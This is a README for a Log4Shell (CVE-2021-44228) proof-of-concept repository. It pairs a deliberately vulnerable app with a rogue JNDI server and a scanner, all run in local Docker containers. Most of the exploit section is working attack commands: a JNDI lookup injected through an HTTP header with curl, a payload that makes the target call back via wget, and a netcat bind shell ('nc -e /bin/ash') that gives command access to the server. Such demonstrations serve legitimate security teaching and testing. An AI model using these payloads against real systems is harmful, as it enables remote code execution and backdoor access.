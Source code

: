 # Log4Shell POC

Demonstrates the Log4Shell (CVE-2021-44228) vulnerability.
You can run a simple attack to demonstrate JNDI out of band (OOB) attack. But also more sophisticated attacks with your own code e.g. to open a backdoor using netcat (nc).

This repo consists for three parts:

1. Vulnerable App (Vulnerable-App)
2. JNDI Server (RogueJndi)
3. Vulnerability Scanner (Nuclei)

All three repos have their origin in separate upstream projects (see following sections for more details)

# Requirements

1. Java
2. Maven

## Install maven

### MacOS

```bash
brew install maven
```

# Setup

## Run the vulnerable app

```bash
docker build -f log4shell-vulnerable-app/Dockerfile -t vulnerable-app log4shell-vulnerable-app/.
docker run -p 8080:8080 -p 3001:3001 --name vulnerable-app --rm vulnerable-app
```

## Get your local ip address (MacOS)

```bash
# for ethernet
ipconfig getifaddr en0
# for wireless
ipconfig getifaddr en1

```

## Test app for vulnerability

Build the docker container

```bash
docker build -f nuclei/Dockerfile -t nuclei nuclei/.
```

Now let's test if the server will tell us its hostname. Replace "your-private-ip" with the ip of your vulnerable app docker container

```bash
docker run -it --rm --entrypoint bin/ash nuclei
nuclei -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://your-private-ip:8080
```

If the remote server is vulnerable to the log4shell bug, it will give you an output like following. The last element in the output (8dc4a6fbe91b) is the remote server's hostname.

```bash
$> nuclei -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://192.168.1.126:8080
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   2.6.0

                projectdiscovery.io

[WRN] Use with caution. You are responsible for your actions.
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Using Nuclei Engine 2.6.0 (latest)
[INF] Using Nuclei Templates 8.8.4 (latest)
[INF] Templates added in last update: 3030
[INF] Templates loaded for scan: 1
[INF] Using Interactsh Server: oast.live
[2022-02-06 19:12:58] [CVE-2021-44228] [http] [critical] http://192.168.1.126:8080/ [62.2.17.166,8dc4a6fbe91b.xapiversion.c801rcpc7q5s72ri0tr0ceyb5pyyyyyyr.oast.live,xapiversion,8dc4a6fbe91b]
```

# Exploit the server

Now let's run some command on the remote server.

The JNDI Server (RogueJNDI) will run a JNDI server (port 1389) and a http server (8000). The JNDI Server will serve exploit code to be executed on the vulnerable-app. The http server is a backcall server for receiving calls sent from the vulnerable app.

## Run the JNDI server

```bash
cd rogue-jndi
mvn compile package
java -jar target/RogueJndi-1.1.jar -c "wget http://your-private-ip:8000/callback/gugus"
```

## Issue simple attack

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

## Backdoor

Start the jndi server with the following command

```bash
java -jar target/RogueJndi-1.1.jar -c "nc -vv -l -p 3001 -e /bin/ash"
```

Start the nc server on the vulnerable app

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

Login with nc

```bash
nc -v localhost 3001
```

Run some commands

```
ls
uname -r
```

# References

## Vulnerable app

https://github.com/christophetd/log4shell-vulnerable-app

## RogueJNDI

https://github.com/veracode-research/rogue-jndi.git

## Nuclei
